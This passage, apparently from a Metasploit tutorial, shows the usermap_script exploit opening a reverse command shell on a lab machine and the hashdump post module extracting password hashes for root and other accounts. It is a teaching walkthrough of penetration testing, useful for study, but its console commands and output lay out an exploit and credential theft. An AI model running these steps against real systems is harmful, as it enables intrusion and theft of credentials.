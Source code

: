 Then, using the **usermap_script** module, a session is opened on the opposite system and the hash values ​​for the opened session are found with the **hashdump** module. If successful, the found hash values ​​are recorded in the `loot` table for later use.

```bash
msf exploit**(**usermap_script**)** > exploit

> Started reverse double handler
> Accepted the first client connection...
> Accepted the second client connection...
> Command: echo 4uGPYOrars5OojdL;
> Writing to socket A
> Writing to socket B
> Reading from sockets...
> Reading from socket B
> B: "4uGPYOrars5OojdL\r "
>Matching...
> A is input...
> Command shell session 1 opened **(**172.16.194.163:4444 -> 172.16.194.172:55138**)** at 2012-06-27 19:38:54 -0400

^Z
Background session 1? **[**y/N] y

msf  exploit**(**usermap_script**)** > use post/linux/gather/hashdump
msf  post**(**hashdump**)** > show options

Module options **(**post/linux/gather/hashdump**)**:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

msf  post**(**hashdump**)** > sessions -l

Active sessions
**===============**

  Id  Type        Information  Connection
  --  ----        -----------  ----------
  1   shell unix               172.16.194.163:4444 -> 172.16.194.172:55138 **(**172.16.194.172**)**

msf  post**(**hashdump**)** > run

**[**+] root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
**[**+] sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
**[**+] klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
**[**+] msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
**[**+] postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
**[**+] user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
**[**+] service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
**[**+] Unshadowed Password File: /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
> Post module execution completed
```
